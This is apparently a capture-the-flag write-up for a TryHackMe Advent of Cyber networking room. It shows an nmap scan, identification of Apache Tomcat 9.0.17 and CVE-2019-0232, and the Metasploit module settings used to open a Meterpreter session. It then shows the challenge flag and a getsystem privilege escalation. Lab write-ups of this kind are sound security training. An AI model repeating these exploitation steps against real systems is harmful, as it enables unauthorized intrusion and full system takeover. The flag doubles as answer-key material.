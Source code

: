 # IP=10.10.85.252


### [Day 12] Networking - Ready, set, elf. ###

1. What is the version number of the web server?

	* Ran nmap scan: `nmap -Pn -oN nmap/initial $IP`
	* Web server was running on port 8080. Went to `http://$IP:8080` and immediately saw the version number.

```
9.0.17
```

2. What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

	* Searched google for `apache tomcat 9.0.17 exploit` and found the exploit with remote code execution.

```
CVE-2019-0232
```

3. Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

	* Open metasploit: `msfconsole`
	* Search for Apache Tomcat.
	* Found the option with reference to Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability, which is what the CVE vulnerability mentioned (from the last question).
	* Selected `exploit/windows/http/tomcat_cgi_cmdlineargs` and showed its options.
	* Had to set RHOST, TARGETURI, and LHOST.
		* RHOST = target machine's IP
		* TARGETURI = /cgi-bin/elfwhacker.bat
		* LHOST = tun0 IP (the IP of my VPN session)
	* Finally let the exploit run: `exploit`.

4. What are the contents of flag1.txt?

```
thm{whacking_all_the_elves}
```

5. Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!

	* Use built-in meterpreter command, `getsystem`.

```
getsystem > NT AUTHORITY\SYSTEM
```